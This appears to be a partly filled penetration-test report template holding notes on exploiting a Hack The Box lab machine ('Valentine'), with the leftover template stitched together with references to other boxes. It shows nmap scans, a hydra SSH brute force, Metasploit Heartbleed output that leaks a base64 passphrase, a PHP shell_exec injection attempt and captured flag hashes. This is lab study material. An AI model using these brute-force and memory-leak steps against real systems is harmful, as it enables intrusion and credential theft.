# Lab name Report

## Introduction

This report is about pentesting a specific machine to see if it's well secured. It will document every thought and interesting investigation that helped to get into privilege escalation.  

## Objective

Run an analysis onto a specific machine ...

## Perimeter

Only this machine (...) with specific tools

- nmap
- masscan
- nc

# High-Level Summary

## Mitre techniques

Initial Access:  

- N/A  

Execution:  

- N/A

Persistence:  

- N/A  

Privilege Escalation:  

- N/A

Defense Evasion:  

- N/A

Credential Access:  

- N/A

Discovery:  

- N/A

Lateral Movement:

- N/A

Collection:  

- N/A 

Command and Control:  

- N/A

Exfiltration:  

- N/A  

Impact:  

- N/A

## Recommendations

I recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.  

Also, I recommend a better management of granted access for framework like perl to avoid root execution without password for any user.  

Check other recommendations at the end of this document. 

# Soluces

[ippsec video of shocker](https://www.youtube.com/watch?v=XJmBpOd__N8)  
[soluces from ](https://github.com/michoo/sec-learning/blob/master/soluces/1_Linux/beep-writeup-w-o-metasploit.md)  
[soluces from Hack the box](https://github.com/michoo/sec-learning/blob/master/1_Linux/Beeo/soluce/Beep.pdf)

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Exam environments is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Reconnaissance

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the shocker machine.

The specific IP addresse was:

**Scope**

- 10.129.1.190


My attacking ip machine was 10.10.14.150

## System IP: 10.129.1.190
### Enumeration
```bash
mkdir nmap
sudo nmap -sC -sV -O -oA nmap/initial 10.129.1.190

    -sC: run default nmap scripts
    -sV: detect service version
    -O: detect OS
    -oA: output all formats and store in file nmap/initial
```



```
searchsploit --id OpenSSH

```



Trying to bruteforce ssh  in // with rockyou (~200tries/sec)
```
hydra -l valentine -P /usr/share/wordlists/rockyou.txt 10.129.1.190 ssh
```

-> too long ... not that


```
cd /usr/share/nmap/scripts
ls -la | grep ssh
nmap --script ssh-auth-methods -oA nmap/initial -v 10.129.1.190
```


-> 443 and 80!!! 
-> auth with key!
-> image omg.jpg


dirbuster  



- let's try dev  (dev)[http://10.129.1.190/dev]


- let's try encode/decode http://10.129.1.190/encode.php
http://10.129.1.190/decode.php

-> it's php, (we got also cgi-bin)


Decode hype_key 



but still need passphrase



create a new file key "new_key" but carefull with the content:  

```
chmod 600 new_key
```


-> indice heartbleed

```
nmap -p 443 --script ssl-heartbleed 10.129.1.190
```



metasploit

```
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 10.129.1.190
set VERBOSE true
exploit
```

results

```
[*] 10.129.1.190:443      - Leaking heartbeat response #1
[*] 10.129.1.190:443      - Sending Client Hello...
[*] 10.129.1.190:443      - SSL record #1:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  86
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 82
[*] 10.129.1.190:443      - 		Type:   Server Hello (2)
[*] 10.129.1.190:443      - 		Server Hello Version:           0x0301
[*] 10.129.1.190:443      - 		Server Hello random data:       607f8bb8d5a8152279a1b04fe2282c3010de0176927c2f8e7214e6bc462255ba
[*] 10.129.1.190:443      - 		Server Hello Session ID length: 32
[*] 10.129.1.190:443      - 		Server Hello Session ID:        970cb8ee4de4fd40ae125b612ba8e59c4047521401fad376358a3034fa28d3eb
[*] 10.129.1.190:443      - SSL record #2:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  885
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 881
[*] 10.129.1.190:443      - 		Type:   Certificate Data (11)
[*] 10.129.1.190:443      - 		Certificates length: 878
[*] 10.129.1.190:443      - 		Data length: 881
[*] 10.129.1.190:443      - 		Certificate #1:
[*] 10.129.1.190:443      - 			Certificate #1: Length: 875
[*] 10.129.1.190:443      - 			Certificate #1: #<OpenSSL::X509::Certificate: subject=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, issuer=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, serial=#<OpenSSL::BN:0x00005581596774d0>, not_before=2018-02-06 00:45:25 UTC, not_after=2019-02-06 00:45:25 UTC>
[*] 10.129.1.190:443      - SSL record #3:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  331
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 327
[*] 10.129.1.190:443      - 		Type:   Server Key Exchange (12)
[*] 10.129.1.190:443      - SSL record #4:
[*] 10.129.1.190:443      - 	Type:    22
[*] 10.129.1.190:443      - 	Version: 0x0301
[*] 10.129.1.190:443      - 	Length:  4
[*] 10.129.1.190:443      - 	Handshake #1:
[*] 10.129.1.190:443      - 		Length: 0
[*] 10.129.1.190:443      - 		Type:   Server Hello Done (14)
[*] 10.129.1.190:443      - Sending Heartbeat...
[*] 10.129.1.190:443      - Heartbeat response, 65535 bytes
[+] 10.129.1.190:443      - Heartbeat response with leak, 65535 bytes
[*] 10.129.1.190:443      - Printable info leaked:
......`~Q.6...$D.J..i.^D.s..Lf..(M.YiO..f.....".!.9.8.........5.............................3.2.....E.D...../...A.......................................ux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==....
[*] 10.129.1.190:443      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```



Let's try to decode this base64 code with decode


-> heartbleedbelievethehype


IT'S FOR HYPE USER.....

e6710a5464769fd5fcd216e076961750


php remote code injection? with encoding and decoding 

it's run by root!!




echo shell_exec('id');

-> ... nothing

Let's find something else



Let's replay bash history






f1bb6d759df1f272914ebbc9ed7765b2


#### TCP
ssh 22
http 80
https 443

#### UDP

#### Web Services

#### Other Services

#### Harvested Informations

Apache/2.2.22 (Ubuntu) Server 


#### Vuln Investigation

##### Check for exploits

### Penetration

### Post exploitation

#### Host Information

#### File system

#### Running processes

#### Installed applications

#### Users & Group

#### Network

#### Scheduled job

### Privilege escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

### Goodies

#### Hashes

#### Passwords

#### Proof/Flags/Other

**Proof Screenshot Here:**

**Proof.txt Contents:**

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the exam network was completed, Alec removed all user accounts and passwords as well as the Meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Detailed Recommandations

## Technical

## Governance

## Blue team

# Additional Items

## Appendix - Proof and Local Contents

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here

## Appendix - Metasploit/Meterpreter Usage

For the exam, I used my Metasploit/Meterpreter allowance on the following machine: `192.168.x.x`

## Appendix - Completed Buffer Overflow Code

```
code here
```
